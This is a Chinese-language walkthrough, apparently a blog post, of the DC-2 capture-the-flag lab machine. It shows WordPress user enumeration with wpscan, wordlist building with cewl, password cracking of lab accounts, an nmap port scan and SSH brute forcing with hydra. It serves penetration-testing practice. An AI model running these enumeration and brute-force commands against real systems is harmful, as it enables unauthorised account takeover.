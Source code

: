 ## wpscan

```shell
wpscan --url 192.168.72.155
```

没有发现可以直接利用的点，试试枚举用户名

```shell
wpscan --url http://dc-2/ --enumerate u
```

![image-20210408212849104](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408212849104.png)

爆破admin的密码

```shell
wpscan --url http://dc-2/ -U admin -P 密码本位置
```

寄，跑了三个密码本没跑出来，试试另外两个账号好了

寄，跑了个2w的也没出，回去看提示，发现提示中提到了cewl

Cewl是一款采用Ruby开发的应用程序，你可以给它的爬虫指定URL地址和爬取深度，还可以添额外的外部链接，接下来Cewl会给你返回一个字典文件

```shell
cewl dc-2 -w ~/Desktop/test.txt
wpscan --url http://dc-2/ -e u -P ~/Desktop/test.txt  
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

用jerry登录找到提示2

![](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408215902218.png)

这边提示我们找其他捷径，但是之前只扫出来个80端口，应该是默认只扫1000个端口太少了。

再扫一次发现了7744端口上有ssh服务

```shell
nmap -A 192.168.72.155 -p 1-10000
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
```

## ssh爆破

先用扫出来的几个账号试试

```shell
hydra -l jerry  -P ~/Desktop/test.txt  192.168.72.155 ssh -s 7744
hydra -l tom  -P ~/Desktop/test.txt  192.168.72.155 ssh -s 7744
[7744][ssh] host: 192.168.72.155   login: tom   password: parturient
1 of 1 target successfully completed, 1 valid password found
```

